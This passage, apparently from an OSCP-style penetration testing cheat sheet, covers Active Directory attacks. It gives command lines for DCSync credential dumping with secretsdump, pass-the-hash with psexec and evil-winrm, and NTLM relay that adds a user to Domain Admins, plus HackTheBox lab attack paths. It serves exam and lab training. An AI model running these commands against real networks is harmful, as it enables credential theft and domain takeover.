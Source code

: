### 5.8 DCSync
- **Use when:** You are DA or have Replication rights.
- **Goal:** Dump domain secrets without executing LSASS dumpers.
- **Kali (Impacket):**
  ```bash
  secretsdump.py -just-dc $DOMAIN/$USER:"$PASS"@$DC > loot/dcsync.txt
  ```
- **Expected:** NTLMs for Administrator, krbtgt, others.
- **Next:** Pass‑the‑hash (§5.9) or forge tickets.

### 5.9 Pass‑the‑Hash / Pass‑the‑Ticket
- **Use when:** You have NTLM or TGT.
- **Goal:** Authenticate without plaintext password.
- **Cmd:**
  ```bash
  psexec.py $DOMAIN/Administrator@$TARGET -hashes $HASH
  evil-winrm -i $TARGET -u Administrator -H "${HASH##*:}"
  ```

### 5.10 NTLM capture & relay (situational)
- **Use when:** You can coerce auth and a relaying target permits it.
- **Goal:** Add user to group or dump via LDAP relay.
- **Cmd (examples):**
  ```bash
  ntlmrelayx.py -t ldaps://$DC -add-user 'oscpuser:Password123' -add-to-group 'Domain Admins'
  # Trigger coercion with PrinterBug/PetitPotam from elsewhere
  ```

### 5.11 RBCD (Resource‑Based Constrained Delegation)
- **Use when:** You can write to a computer object or create one.
- **Goal:** Get SYSTEM on a target by forging service tickets.
- **Note:** Use powerrbcd/impacket guides; exam rarely requires, but BloodHound may show.

---

## 6) Scenario cookbook (15+ quick paths)

Each is **Trigger → Steps → Result**. Adapt hostnames/paths.

1) **Active (HTB): GPP → Kerberoast → DA**  
Trigger: Readable SYSVOL/Replication.  
Steps: SMB anon loot → find `cpassword` → `gpp-decrypt` → test creds → `GetUserSPNs.py -request` → crack → `psexec.py` as Administrator.  
Result: DA shell.

2) **Forest (HTB): AS‑REP → Exchange ACL → DCSync**  
Trigger: RPC users + AS‑REP roastable.  
Steps: `GetNPUsers.py` → crack → BloodHound shows Exchange‐derived WriteDACL → `Add-DomainObjectAcl -Rights DCSync` → `secretsdump.py`.  
Result: Admin NTLM → DA access.

3) **Timelapse (HTB): PFX auth → LAPS read**  
Trigger: Share with `.pfx`.  
Steps: crack PFX → `evil-winrm -S -c/-k` cert auth → find `ConsoleHost_history.txt` creds → account in LAPS readers → `Get-AdmPwdPassword`.  
Result: Administrator password to DC.
